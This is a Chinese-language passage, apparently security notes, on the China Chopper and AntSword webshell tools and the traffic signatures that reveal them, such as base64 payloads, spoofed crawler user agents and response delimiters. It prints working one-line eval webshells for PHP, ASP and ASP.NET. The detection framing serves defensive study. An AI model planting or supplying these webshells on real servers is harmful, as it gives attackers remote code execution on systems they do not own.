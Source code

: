 常见一句话(Eval)：

PHP, ASP, ASP.NET 的网站都可以：

> PHP:    <?php @eval($_POST['caidao']);?>
>
> ASP:    <%eval request("caidao")%>
>
> ASP.NET:    <%@ Page
> Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>

### 菜刀webshell的动态特征

请求包中：

ua头为百度爬虫

请求体中存在eavl，base64等特征字符

请求体中传递的payload为base64编码，并且存在固定的QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J

请求体中执行结果响应为明文，格式为X@Y    结果   X@Y之中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220405173032.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220405173033.png)

## 蚁剑

AntSword（蚁剑）是一个开放源代码，跨平台的网站管理工具，旨在满足渗透测试人员以及具有权限和/或授权的安全研究人员以及网站管理员的需求。

github项目地址：https://github.com/AntSwordProject/antSword  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220405173034.png)

### 蚁剑webshell静态特征

https://github.com/AntSwordProject/AwesomeScript蚁剑官方为我们提供了制作好的后门，官方的脚本均做了不同程度“变异”，蚁剑的核心代码是由菜刀修改而来的，所有普通的一句话木马也可以使用。

Php中使用assert，eval执行, asp 使用eval
，在jsp使用的是Java类加载（ClassLoader）,同时会带有base64编码解码等字符特征

![]()

### 蚁剑webshell动态特征

默认编码连接时

这里我们直接使用菜刀的一句话webshell

每个请求体都存在@ini_set(“display_errors”, “0”);@set_time_limit(0)开头。并且存在base64等字符

响应包的结果返回格式为  随机数 结果  随机数
